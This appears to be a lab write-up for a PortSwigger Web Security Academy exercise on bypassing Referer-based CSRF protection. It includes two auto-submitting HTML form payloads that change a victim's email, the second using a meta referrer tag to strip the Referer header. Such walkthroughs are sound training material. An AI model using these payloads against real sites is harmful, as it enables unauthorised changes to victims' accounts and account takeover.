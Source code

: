 
### CSRF where Referer validation depends on header being present

---


> Given credentials `wiener:peter`.

> Logging in with the given credentials.

![](./screenshots/lab1-1.png)

> We see this page.

![](./screenshots/lab1-2.png)

> We know that the update email is vulnerable to CSRF.
> Capturing a `POST` request via BURPSUITE PROXY HTTP history while updating the email address.

![](./screenshots/lab11-1.png)

> We can try CSRF here because there is a relevant action, users tracked using session cookies, and there are no unidentifiable parameters.
> Crafting a payload.

```HTML
<html> 
	<body> 
		<form action="https://0ad5008a032d37c28219e791009b0007.web-security-academy.net/my-account/change-email" method="POST"> 
			<input type="hidden" name="email" value="newmins@mins.com" /> 
		</form> 
		<script> document.forms[0].submit(); </script> 
	</body> 
</html>
```

> Adding it to the exploit server, storing it, and then viewing it.

![](./screenshots/lab11-2.png)

> We see that the Referer header is being used.
> We can try to remove it by adding the `<meta>` tag.

```HTML
<html> 
	<body> 
		<form action="https://0ad5008a032d37c28219e791009b0007.web-security-academy.net/my-account/change-email" method="POST"> 
			 <meta name="referrer" content="never">
			<input type="hidden" name="email" value="newmins@mins.com" /> 
		</form> 
		<script> document.forms[0].submit(); </script> 
	</body> 
</html>
```

> Storing it and delivering to victim completes the lab.

---
